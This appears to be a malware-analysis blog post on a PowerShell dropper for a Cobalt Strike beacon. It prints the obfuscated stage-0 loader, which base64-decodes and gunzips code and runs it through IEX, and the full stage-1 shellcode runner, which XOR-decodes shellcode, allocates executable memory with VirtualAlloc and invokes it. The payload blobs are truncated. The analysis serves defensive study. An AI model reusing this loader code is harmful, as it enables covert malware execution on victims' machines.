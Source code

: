 ```yaml
---
title: "Cobalt Strike Beacon Analysis"
categories:
  - Malware Analysis
---
```


Cobalt Strike, which was originally developed as a legitimate security tool used for adversary emulation by Red Teams, has become a double-edged sword in the realm of cybersecurity. Malicous actors have cracked the software, since then it's been abused by adversaries ranging from hacktivists to APTs to fufill their needs. This is article is an analysis of the PowerShell script that leads to execution of a Cobalt Strike beacon.  

## Discovery

I recently discovered this malicious PowerShell script from a [Twitter post by @xorJosh](https://twitter.com/xorJosh/status/1655905247334735878). In his tweet he described an Oracle related service was exploited to download and execute a PowerShell script.

[![1](/assets/images/CobaltStrikeBeaconAnalysis1/1.png)](/assets/images/CobaltStrikeBeaconAnalysis1/1.png){: .align-center}

The malware sample mentioned can be found on [MalwareBazaar](https://bazaar.abuse.ch/sample/9c9e8841d706406bc23d05589f77eec6f8df6d5e4076bc6a762fdb423bfe8c24/). Lets download this ourselves and have a look!

## Static Analysis (Stage 0)

```ruby
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAA/+y9Wa/qSrIu+rzrV8yHLa21xNo1wBhjjrSla2wwxh09mDqlkjHgBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9ERqSXp+I/lkXmO4UeH0/f/mNzynI/jr4xf/nLuYycAv/GP/7hnop/JFns/MM+HrNTnn/7X3/5t
....QUA"));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

The PS script starts by defining a variable `s` to Base64 decoded binary data. Once we get to the end of the `s` variable, we see the following:

```ruby
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

This Gzip decompresses the variable `s`, and inputs into the StreamReader object. The contents of the StreamReader object are then passed as input into the IEX function, Invoke-Expression, which executes a given PowerShell command or script. From this, we can take a guess that `s` is gzip compressed, PowerShell code? Let's recreate this process of Base64 decoding & Gzip decompressing in CyberChef.

[![2](/assets/images/CobaltStrikeBeaconAnalysis1/2.png)](/assets/images/CobaltStrikeBeaconAnalysis1/2.png){: .align-center}

We can see that indeed, this was more PowerShell code to be executed. Let's download this locally and analyze this script

## Static Analysis (Stage 1)

```ruby
Set-StrictMode -Version 2

function func_get_proc_address {
  Param ($var_module, $var_procedure)   
  $var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
  $var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
  return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
  Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
    [Parameter(Position = 1)] [Type] $var_return_type = [Void]
  )

  $var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
  $var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
  $var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

  return $var_type_builder.CreateType()
}

If ([IntPtr]::size -eq 8) {
  [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8DIyMja64+ydzc3Guq/Gui4GdHIiPc8GKb05aBdUsnIyMjeWuq2tzzIyMjIyMjIyMj2yMjIy08mS0jlyruApsib+4Cd0tKUANTUUxEUUJOA0BCTU1MVwNBRgNRVk0DSk0DZ2xwA05MR
  ...OP84/')

  for ($x = 0; $x -lt $var_code.Count; $x++) {
    $var_code[$x] = $var_code[$x] -bxor 35
  }

  $var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
  $var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
  [System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

  $var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
  $var_runme.Invoke([IntPtr]::Zero)
}

```